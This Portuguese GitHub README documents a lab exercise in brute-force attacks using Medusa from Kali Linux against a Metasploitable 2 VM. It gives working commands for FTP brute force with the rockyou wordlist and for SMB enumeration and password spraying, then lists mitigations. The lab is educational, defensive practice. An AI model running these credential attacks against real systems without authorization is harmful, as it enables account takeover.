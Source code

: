 # 🔐 Projeto: Testes de Força Bruta com Medusa no Kali Linux

## 📌 Descrição
Este projeto demonstra a execução de ataques de **força bruta** utilizando a ferramenta **Medusa** em um ambiente controlado com **Kali Linux** e **Metasploitable 2**. O objetivo é compreender como esses ataques funcionam, documentar os processos e propor medidas de mitigação para fortalecer a segurança.

---

## 🛠️ Ambiente Utilizado
- **VirtualBox** com duas VMs:
  - **Kali Linux** (atacante)
  - **Metasploitable 2** (alvo)
- Rede: **Host-Only**
- Ferramentas:
  - Medusa
  - Enum4linux
  - DVWA (para testes web)

---

## ✅ Cenários Testados
1. **Ataque de Força Bruta em FTP**
   ```bash
   medusa -h 192.168.56.101 -u msfadmin -P /usr/share/wordlists/rockyou.txt -M ftp

2. **Automação em Formulário Web (DVWA)**

   Teste de login com Medusa ou Hydra.

4. **Password Spraying em SMB com Enumeração**
   ```bash
   enum4linux -a 192.168.56.101
   medusa -h 192.168.56.101 -U users.txt -P passwords.txt -M smbnt
   ```
---

## 🔍 Resultados

Foram obtidas credenciais válidas em serviços vulneráveis.
Prints das execuções estão disponíveis na pasta /images.

---

## 🛡️ Recomendações de Mitigação

Implementar políticas de senha forte.
Configurar bloqueio após tentativas falhas.
Utilizar autenticação multifator (MFA).
Monitorar logs e alertas de tentativas suspeitas.
